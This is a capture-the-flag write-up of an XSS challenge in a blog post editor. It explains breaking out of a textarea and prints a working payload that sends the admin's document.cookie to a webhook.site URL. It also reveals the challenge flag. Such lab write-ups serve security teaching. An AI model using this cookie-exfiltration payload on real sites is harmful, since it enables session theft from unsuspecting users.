 # Challenge `Read my lips: No more scripts!` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Blogpost creation content
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies.

Trying to inject JavaScript code in the search bar or in the new blogpost area will not work if the input is simply
`<script>aler(1)</script>`, reviewing the source code reveals that the input is being rendered as plain text.

## Exploit

Start by creating a new post with some random title and content.
Then, by opening the source code of the page, notice that the content is a textarea and whatever we enter is then
rendered on the screen after clicking the `Update post` button.
This means that we can close the textarea tag and inject JavaScript code that when rendered will execute.
It's possible to test this by injecting `</textarea><script>alert(1)</script>`  and clicking the `Update post` button.
To steal the admin's cookie, we can re-use the payload from the previous challenge that sends a GET request to a webhook
site with the `document.cookie` appended to the URL.
Write the following payload in the content textarea:
`</textarea><script>location='https://webhook.site/your-unique-id/'+document.cookie;</script>`
and click `Update post and send it for admin review` button.
This will then be loaded on the admin's browser and the cookie will be sent to the webhook site, revealing the cookie `SSof{Reject_this_blogpost.Too_many_weird_chars.I_dont_get_it}`

## Implementation

No script needed.